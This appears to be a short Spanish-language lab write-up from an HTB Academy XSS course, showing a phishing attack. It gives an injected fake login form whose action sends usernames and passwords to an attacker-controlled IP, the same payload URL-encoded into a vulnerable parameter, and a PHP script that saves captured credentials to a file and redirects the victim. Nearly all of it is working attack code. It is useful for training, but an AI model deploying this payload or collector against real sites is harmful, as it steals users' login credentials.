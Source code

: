 ```html
<h3>Please login to continue</h3>
<form action=http://10.10.15.192>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

```js
document.write('<h3>Please login to continue</h3><form action=http://10.10.15.192:8000><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

![alt text](../assets/images/HTB_Academy_XSS/image-34.png)

```sh
http://10.129.227.72/phishing/index.php?url=document.write%28%27%3Ch3%3EPlease+login+to+continue%3C%2Fh3%3E%3Cform+action%3Dhttp%3A%2F%2F10.10.15.192%3E%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E%3C%2Fform%3E%27%29%3B
```



Preparo mi servidor

```sh
mkdir /tmp/tmpserver
cd /tmp/tmpserver
touch index.php
```

Con nano index.php escribo el siguiente codigo en el fichero index.php

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://10.129.227.72/phishing/login.php");
    fclose($file);
    exit();
}
?>
```
